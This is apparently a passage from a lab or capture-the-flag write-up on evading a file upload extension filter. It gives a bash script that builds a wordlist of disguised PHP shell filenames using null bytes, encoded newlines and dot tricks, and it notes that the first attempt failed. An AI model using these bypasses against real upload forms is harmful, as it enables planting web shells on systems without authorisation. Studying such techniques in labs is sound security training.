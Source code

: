 Extension is not allowed, we can try fuzzing again, we can generate our wordlist with the following bash script:

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' 'â€¦' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

![Pasted image 20250206154754.png](../../../../IMAGES/Pasted%20image%2020250206154754.png)

Let's send the attack:

![Pasted image 20250206155322.png](../../../../IMAGES/Pasted%20image%2020250206155322.png)

None of them worked, we missed something, let's go back to the normal request, and check it out:
